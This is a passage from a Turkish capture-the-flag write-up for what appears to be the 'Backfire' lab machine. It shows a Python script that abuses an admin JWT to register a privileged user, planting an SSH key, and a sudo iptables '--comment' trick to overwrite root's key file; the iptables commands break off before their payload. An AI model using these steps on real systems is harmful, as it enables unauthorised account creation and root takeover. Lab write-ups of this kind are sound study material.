 ```
# Use Admin JWT to create a new user 'sth_pentest' as TeamLead
burp0_url = f"https://{rhost}/Login/Register"
burp0_headers = {
  "Authorization": f"Bearer {token}",
  "Content-Type": "application/json"
}
burp0_json = {
  "password": "sth_pentest",
  "role": "TeamLead",
  "username": "sth_pentest"
}
r = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, verify=False)
print(r.text)
```

![Pasted image 20250121204206.png](/img/user/resimler/Pasted%20image%2020250121204206.png)

Çalıştırdıktan sonra kullanıcının başarıyla oluşturulduğunu görebilirsiniz. Ardından [https://127.0.0.1:7096/](https://127.0.0.1:7096/) adresine gidin ve kullanıcı adı ve şifre ile giriş yapın.

Simüle edilmiş terminale gelerek komutlar çalıştırın.

Aynı yöntemle kendi SSH anahtarınızı Sergej'in anahtarlarına ekleyin.

```
username : sth_pentest
username : sth_pentest
```

![Pasted image 20250121205301.png](/img/user/resimler/Pasted%20image%2020250121205301.png)

![Pasted image 20250121205821.png](/img/user/resimler/Pasted%20image%2020250121205821.png)

![Pasted image 20250121205901.png](/img/user/resimler/Pasted%20image%2020250121205901.png)

Ardından sudo izinleri komutunu görmek için ssh kullanarak sergej'de oturum açın

![Pasted image 20250121205928.png](/img/user/resimler/Pasted%20image%2020250121205928.png)

iptables ile ilgili power-up'ları arayın

https://www.shielder.com/blog/2024/09/a-journey-from-sudo-iptables-to-local-privilege-escalation/

https://cn-sec.com/archives/3193918.html

Yorumlama işlevi, diğer dosyaların üzerine yazmak için kullanılabilir, bu nedenle bazı hassas dosyaların üzerine yazmayı düşünebilirsiniz, özellikle root kimliğini taklit edebilecek dosyaları.

```
sudo iptables -A INPUT -i lo -j ACCEPT -m comment --comment 

Testler sonucunda bu `comment`'in uzunluğunun çok fazla olamayacağı belirlendi, bu nedenle SSH anahtarının uzunluğu nispeten kısa olmalıdır.

![Pasted image 20250121210235.png](/img/user/resimler/Pasted%20image%2020250121210235.png)

Ardından root'un anahtar dosyasının üzerine yazın

```
sergej@backfire:~$ sudo /usr/sbin/iptables -A INPUT -i lo -j ACCEPT -m comment --comment 
